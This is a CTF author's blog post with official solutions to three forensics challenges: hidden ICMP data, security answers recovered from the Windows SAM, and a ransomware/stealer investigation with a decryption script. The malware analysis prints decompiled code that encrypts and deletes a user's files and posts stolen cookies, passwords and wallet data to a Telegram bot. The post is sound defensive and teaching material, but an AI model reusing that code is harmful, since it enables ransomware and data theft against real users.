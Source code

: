 ```yaml
---
layout: post
title: World Wide CTF 2024 - Official Forensic Writeups
description: All solutions for all forensic challenges
tags: [WWF, Writeup, Command and Control, Telegram, Powershell, Blue Team, Python]
---
```


Hi guys, I'm Odin who is the author of Forensic category, I felt very happy since y'all enjoyed my challenges though it was my first time. As usual in any CTF, 
I will show you the official writeup for it. Let's go!

![image](https://github.com/user-attachments/assets/a70e20f8-9ee4-4d88-916f-3838e65e3b64)

### Too Hidden
In this challenge I gave u a pcapng file and your mission is to find the secret inside. Basically, we will open it by using Wireshark:

![image](https://github.com/user-attachments/assets/4910dccb-c0e8-470d-a0ed-4192bb5cd049)

There are many ICMP packets and normally you can try to find the difference between each packet and if you look carefully you will see the data in each packet changed 
frequently:

![image](https://github.com/user-attachments/assets/442a0f0b-1142-4b68-8dc6-03082b7ac820)

![image](https://github.com/user-attachments/assets/ad0e09f0-aa47-40e4-af36-3aa4bc0c9bd2)

It's very suspicious, right? From here we will extract the data -> try to decode it by using ASCII table: 

![image](https://github.com/user-attachments/assets/f60bad33-c1eb-47dd-bb90-feabc59df01e)

![image](https://github.com/user-attachments/assets/9e903026-13e4-4d90-9c8a-bf66a2b321bf)

The result will be the Morse string, decode again and you will get the flag: 

![image](https://github.com/user-attachments/assets/d99a7c20-a0d0-44b9-af8e-82d36f87e429)

**Flag: wwf{HOLY_SHEEEET_YOU_CAN_FIND_ME_??????????}**

### Forgot Password
The description was very clear, I asked you to recover the security questions which are very important if we forgot password and we want to recover. In Windows there is 
a component which stores data related to user account and security questions called **SAM**, its location in **System32/config**. By using **Registry Explorer**, we will import 
SAM and navigating to **SAM/Domain/Account/Users**, you will get the flag:

![image](https://github.com/user-attachments/assets/199c8a4e-d991-4479-aaa7-862e511044de)

**{"version":1,"questions":[{"question":"What was your first pet’s name?","answer":"wwf{I_love_"},
{"question":"What’s the name of the city where you were born?","answer":"security_questions_"},
{"question":"What was your childhood nickname?","answer":"s0_muChhhhhhhhhhhhhhhhh}"}]}**

**Flag: wwf{I_love_ security_questions_ s0_muChhhhhhhhhhhhhhhhh}**

### Black Meet Wukong
Now it's the challenge that I love the most and it's so interesting that y'all had so many methods to solve it and I learnt many things. Now it's my solution, first open 
AD1 file by using FTK Imager: 

![image](https://github.com/user-attachments/assets/464e6f9c-3076-48c2-a0a1-16d3894a9ac1)

The first thing when I met these case is that I try to think about how they could attack to the computer. When they got access to target, they might download their payload from their machine or somewhere 
on the Internet and execute it, so the first step I always check their browser history! In this system I just left Edge as the default browser, so to check history we will find **History** file:

![image](https://github.com/user-attachments/assets/84c97bb2-4f3d-4a2b-9f23-40058b67f2a9)

Extract **History** file and open it by using **DBBrowser**, you will find the history: 

![image](https://github.com/user-attachments/assets/a5bac5e9-d5f6-4248-b402-8ac90cd94a61)

You can see that they downloaded a zip file which is very suspicious. Next we will try to find their activities through Windows Event Log file. In **winevt** folder 
you will see there are so many logs and the suspicious thing is that Windows recorded Powershell activities! Extract it, open it by Event Viewer to read the log:

![image](https://github.com/user-attachments/assets/449d9a5a-7800-475f-bd7a-90596efa2747)

Inside the log it recorded a base64 string, decode it and you will get the location of the payload: 

![image](https://github.com/user-attachments/assets/b2a632e8-bcca-434f-9937-e29a6e51e72a)

The hunt is on! The file was packed by PyInstaller so it's easy to extract full source by using **pyinstxtractor-ng**:

![image](https://github.com/user-attachments/assets/4c1ce487-ee68-4e2e-b683-68606e3e1954)

Extract **bLAcKmEeTWUkOng.pyc** and using [pylingual](https://pylingual.io/) to decompile pyc file:

![image](https://github.com/user-attachments/assets/824aefdf-856d-455e-922d-0c2549487f56)

Because the source was kinda long, I will summarize some main functions of the file. First they will encrypt the file:
```python
def god_bless_aes(data, key):
    key = key.encode('utf-8')
    cipher = AES.new(key, AES.MODE_ECB)
    padded_text = pad(data, AES.block_size)
    cipher_text = cipher.encrypt(padded_text)
    return cipher_text

def xoriiiiiiiiiii(data, key):
    return bytearray([b ^ key[i % len(key)] for i, b in enumerate(data)])

def crypter_fichier(file_path, output_path):
    with open(file_path, 'rb') as file:
        original_data = file.read()
    encrypted_data = original_data
    for key in key_fernet:
        fernet = Fernet(key)
        encrypted_data = fernet.encrypt(encrypted_data)
    encrypted_data = xoriiiiiiiiiii(encrypted_data, key_fernet[0])
    final = god_bless_aes(encrypted_data, key_xori)
    with open(output_path, 'wb') as enc_file:
        enc_file.write(final)
path_list = ['C:\\Users\\{}\\Documents'.format(PC_username), 'C:\\Users\\{}\\Pictures'.format(PC_username), 'C:\\Users\\{}\\Desktop'.format(PC_username), 'C:\\Users\\{}\\Downloads'.format(PC_username)]
fname = []
for path in path_list:
    for root, d_names, f_names in os.walk(path):
        for f in f_names:
            fname.append(os.path.join(root, f))
for file in fname:
    if 'desktop.ini' not in file:
        crypter_fichier(file, file + '.odin')
        os.system('del \"{}\"'.format(file))
```
Second, it will steal data of computer and send it to Telegram link: 
```python
    info = f'<b>====== Stealer Logs =======</b>\n<b>==== PC Infomation ====</b>\nName: {InfoLog.FileName}\nIP: {InfoLog.IP}\nCountry: {InfoLog.Country}\nDate: {InfoLog.Date}\n<b>==== Browser Data ====</b>\nCookies: {Counter.CookiesCount}\nPasswords: {Counter.PasswordCount}\n<b>==== Wallets ====</b>\n'
    filename = f'{InfoLog.Country}-{InfoLog.IP}-{InfoLog.Date}'
    files = {'document': (filename + '.zip', open(zipf, 'rb'), 'text/plain')}
    data = {'chat_id': TCHATID, 'caption': info, 'parse_mode': 'HTML'}
    url = f'https://api.telegram.org/bot{TAPI}/sendDocument'
    response = requests.post(url=url, files=files, data=data)
    if response.status_code == 200:
        print('Done')
```

You will see that there are 4 directories encrypted by the malware, and this is script to decrypt it: 
```python
from cryptography.fernet import Fernet
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

key_fernet = [
    b'zTskoYGm68VrSiOM6J9W0PqyKTfSyraM0NydVmJvM_k=', b'pcD23bRQTL1MqLS84NdPsiPdYJlwbTaal6JmulzTq4k=',
    b'9EBQNDjmy0rGXCbVgVnrgFFsAHk4Ye1M8y1GSIx9CPY=', b'663RnK5l0MQzewfpAQfYhJbL3p7ZRoR-j7I3DkXiUIk=',
    b'I5Arxkgfo2E56VBVctFjJ-pFkeBbQg6QXMuG-gNgqq4=', b'eXP1sKfkTE9PNkWR8rA9jzJqun80yMYPrzMMi65JQpw=',
    b'56S9Sv7zUPL71w6N2OTSwxvFl_a-5zvsN6rxQI97UWU=', b'gZcRMaVftMg_F9E4tNQ_etAR7_PKT_vVfWwWkMSxDQc=',
    b'-XmaKL4uo4p0gM5ARQZtxjZ_5ecK1w53AEkWuiWDIzQ=', b'ikNfBtrrX-9EBI3iKzWnBJW5wNNvi8rM4oT9BLqDJNw=',
    b'uEikHaHAX1B20aB_bcQwUA0aO21Ai-rgYAqGfKxHKJA=', b'deoHTwNvwTOuQjoy5oh9jN_ZQlLbVCvwI47D3sQt8UA=',
    b'xuaD7BqwreniKZAvBO38MO250oO40HXboxhU8--6YQ0=', b'X5GfY_zukIDPKxyzmMYFkps-Av8Ao2TQDPmckrjb3ZQ=',
    b'CAOD7XSW4e-ON33uz5_8h6RZhorDlKg798e1RcEYSlo=', b'dMphwlwO6Qh_FCdbMzseoZsWkQWPFtGx8VSiFAN2SSo=',
    b'q4NfcRieLIKnyBwFEhUxZcR_8A3BFS_n_cIE8sFX8a4=', b'hLfAPR06xuo545qJlzlYko5f9KKuXOBrCBNgzruTV14='
]
key_xori = "y0u_l00k_l1k3_X1sh1_&_b3_my_l4dy"

def god_bless_aes_decrypt(cipher_text, key):
    key = key.encode('utf-8')
    cipher = AES.new(key, AES.MODE_ECB)
    decrypt = cipher.decrypt(cipher_text)
    return unpad(decrypt, AES.block_size)

def xoriiiiiiiiiii_decrypt(data, key):
    return bytearray([b ^ key[i % len(key)] for i, b in enumerate(data)])

def decrypter_fichier(file_path, output_path):
    with open(file_path, "rb") as enc_file:
        encrypted_data = enc_file.read()
    decrypted_data = god_bless_aes_decrypt(encrypted_data, key_xori)
    decrypted_data = xoriiiiiiiiiii_decrypt(decrypted_data, key_fernet[0])
    for key in reversed(key_fernet):
        fernet = Fernet(key)
        decrypted_data = fernet.decrypt(bytes(decrypted_data))
    
    with open(output_path, "wb") as dec_file:
        dec_file.write(decrypted_data)
```
After decrypted, the first part will be in **wukong.png**:

![image](https://github.com/user-attachments/assets/93a24298-c296-4da3-a0e5-1d59da6f5b5a)

Beside recover the system, I asked you to trace their footprint. In Intelligence it is very important that we can trace attackers activities and from that we can know 
what they did and what they will do. In source code they steal the data and send to the Telegram bot. From here I use a [tool](https://github.com/soxoj/telegram-bot-dumper) which help me dump the message and also it can 
listen the chat:

![image](https://github.com/user-attachments/assets/06780728-3d8b-48fc-bf9e-356cfe5e8f6b)

You will notice that there is a Github link, access it and you will get full source again: 

![image](https://github.com/user-attachments/assets/f14a4392-0f5c-4e9a-bcd6-cbadb162b139)

Look into the source code, in the last line there is a comment which is encoded by base85, decode it and you will get the last part: 

![image](https://github.com/user-attachments/assets/8a89a8c6-6431-4713-94c2-bdd3314614dc)

**Flag: wwf{1_D0WN104D3D_correct_814CK_MY7H_WUK0N6}**

Thank you so much for loving and enjoying my challenge. This is my first time so I could not avoid some mistakes during CTF event, but I felt very happy because you enjoyed 
my challenge so much, it's the biggest motivation for me. See you in the next CTF, love you all 💙💙💙
